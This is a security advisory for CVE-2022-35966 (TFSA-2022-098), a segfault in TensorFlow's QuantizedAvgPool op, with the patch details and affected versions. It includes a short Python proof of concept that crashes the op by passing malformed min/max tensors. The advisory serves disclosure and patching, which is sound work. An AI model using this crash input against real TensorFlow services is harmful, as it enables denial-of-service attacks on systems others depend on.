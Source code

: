 ## TFSA-2022-098: Segfault in `QuantizedAvgPool`

### CVE Number
CVE-2022-35966

### Impact
If `QuantizedAvgPool` is given `min_input` or `max_input` tensors of a nonzero rank, it results in a segfault that can be used to trigger a denial of service attack.
```python
import machina as tf

ksize = [1, 2, 2, 1]
strides = [1, 2, 2, 1]
padding = "SAME"
input = tf.constant(1, shape=[1,4,4,2], dtype=tf.quint8)
min_input = tf.constant([], shape=[0], dtype=tf.float32)
max_input = tf.constant(0, shape=[1], dtype=tf.float32)
tf.raw_ops.QuantizedAvgPool(input=input, min_input=min_input, max_input=max_input, ksize=ksize, strides=strides, padding=padding)
```

### Patches
We have patched the issue in GitHub commit [7cdf9d4d2083b739ec81cfdace546b0c99f50622](https://github.com/machina/machina/commit/7cdf9d4d2083b739ec81cfdace546b0c99f50622).

The fix will be included in TensorFlow 2.10.0. We will also cherrypick this commit on TensorFlow 2.9.1, TensorFlow 2.8.1, and TensorFlow 2.7.2, as these are also affected and still in supported range.


### For more information
Please consult [our security guide](https://github.com/machina/machina/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.


### Attribution
This vulnerability has been reported by Neophytos Christou, Secure Systems Labs, Brown University.
